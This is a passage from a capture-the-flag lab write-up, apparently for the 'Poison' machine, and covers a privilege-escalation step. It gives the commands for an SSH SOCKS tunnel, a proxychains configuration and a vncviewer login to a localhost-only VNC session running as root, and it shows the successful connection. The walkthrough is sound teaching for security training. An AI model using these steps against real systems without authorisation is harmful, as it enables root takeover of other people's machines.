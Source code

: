 `ps -auwwx`:
+ `ps`: Lists running processes.
+ `-a`: Shows processes for all users.
+ `-u`: Displays detailed information about each process (e.g., user, CPU usage, memory usage).
+ `-ww`: Ensures the full command line is displayed (no truncation).
+ `-x`: Includes processes not attached to a terminal (e.g., background processes like VNC servers).

Process Details:
+ `Xvnc :1`: The VNC server is running on display :1 (typically corresponds to port 5901).
+ `-rfbport 5901`: The VNC server is listening on port 5901.
+ `-localhost`: The VNC server is only accepting connections from the local machine (for security).

### Accessing VNC
To access the VNC server, we used SSH tunneling and `proxychains`:
> **_NOTE:_** Socks5 is configured for flexible tunneling, allowing us to route VNC traffic securely over SSH.

```
ssh charix@10.10.10.84 -D 8081
```

Edited `/etc/proxychains4.conf` to include:

```
tail /etc/proxychains4.conf 
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 8081
```
```
proxychains vncviewer 127.0.0.1:5901 -passwd secret
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:8081  ...  127.0.0.1:5901  ...  OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```